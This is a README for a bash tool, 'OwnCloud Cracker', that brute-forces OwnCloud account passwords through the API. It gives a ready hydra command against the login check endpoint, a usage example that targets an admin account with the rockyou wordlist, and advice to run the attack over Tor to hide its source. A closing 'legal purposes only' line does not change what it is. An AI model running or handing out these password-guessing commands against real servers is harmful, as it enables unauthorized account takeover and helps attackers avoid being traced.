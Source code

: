 =====
OwnCloud Cracker

Bruteforce OwnCloud accounts using it's API. Yes, in bash!

You can also use hydra if available:
hydra 127.0.0.1 -L userlist.txt -P pass.txt "/ocs/v1.php/person/check:login=^USER^&password=^PASS^"

Get help with the "-h" switch: ./ocrk.sh -h

Before run, it's more convinient to make it executable: chmod +x ocrk.sh
Else you need to run like "sh ocrk.sh"

Syntax: ./ocrk.sh <site url> <username> <passwordlist>
Example: ./orck.sh https://www.crkoc.com/ admin rockyou.txt

You can use this over Tor, but the "torify" command is not recommended. Use ". torsocks on" before running.

For legal purposes only.
